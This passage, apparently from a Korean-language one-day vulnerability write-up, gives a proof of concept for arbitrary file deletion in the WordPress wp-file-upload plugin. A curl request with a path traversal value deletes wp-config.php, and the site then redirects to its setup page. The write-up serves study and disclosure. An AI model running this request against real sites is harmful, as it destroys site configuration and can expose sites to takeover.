 ![imagea](assets/posts/one-day/2025-02-12/image-013.png)

## 📌 PoC

### 1. 임의 파일 삭제 취약점

아래의 요청은 워드프레스 기본 파일인 `wp-config.php` 를 삭제하는 스크립트입니다.

```bash
curl -G "http://localhost:8080/wp-content/plugins/wp-file-upload/wfu_file_downloader.php" \
     --data-urlencode "source=../var/www/html/wp-config.php"

curl http://localhost:8080 -v
```

위 요청을 수행한 뒤, 워드프레스 사이트를 접속하면 워드프레스 설정(`/wp-admin/setup-config.php`)로 302 Found 응답 상태와 함께 리다이렉션이 발생합니다.
